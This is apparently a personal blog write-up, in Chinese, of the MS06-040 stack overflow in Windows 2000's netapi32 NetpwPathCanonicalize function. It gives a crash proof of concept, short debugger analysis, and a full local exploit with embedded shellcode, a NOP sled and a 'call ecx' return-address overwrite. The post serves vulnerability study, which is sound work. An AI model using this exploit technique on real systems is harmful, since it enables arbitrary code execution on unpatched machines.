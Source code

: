 ```yaml
---
layout:		post
title:		RPC入侵：MS06-040
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 sp4  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

编译POC, 运行

```
#include"stdafx.h"
#include <windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;

	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[ ] = "./netapi32.dll";
	char VulFunc[ ] = "NetpwPathCanonicalize";
	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,'a',sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'b',sizeof(prefix)-2);
	
	(Trigger)(path,can_path,maxbuf,prefix ,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

程序崩溃掉, OD附加上去, EIP被"aaaa"填充

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x00.png)

执行文件拖到OD, 单步来到call netapi32.NetpwPathCanonicalize, 再往下程序崩掉

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x01.png)

跟进NetpwPathCanonicalize函数, 执行MSVCRT.wcscat, 当retn时程序再次崩溃

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x02.png)

此处应该就是崩溃点, 在IDA定位到该函数

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x03.png)

copy"bbbbbb..."串到栈上

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x04.png)

"bbbbb..."串尾部拼接一个0x005C

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x05.png)

继续拼接"aaaaa..."串, 覆盖返回地址

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x06.png)


### 0x01 本地exploit

观察在retn时, ecx指向缓冲区的开始

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x07.png)

可以把shellcode布置在"bbbbbb...."串里, 用一条call/jmp ecx跳到栈上执行

```
// ms06_040_exp.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include <windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

char shellcode[]=
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;
	
	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[] = "./netapi32.dll";
	char VulFunc[] = "NetpwPathCanonicalize";

	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,0x90,sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'a',sizeof(prefix)-2);
	memcpy(prefix,shellcode,113);

	path[0x318]=0xF9;		// call ecx
	path[0x319]=0x52;
	path[0x31A]=0x18;
	path[0x31B]=0x75;

	(Trigger)(path,can_path,maxbuf,prefix,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

pwn~

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x08.png)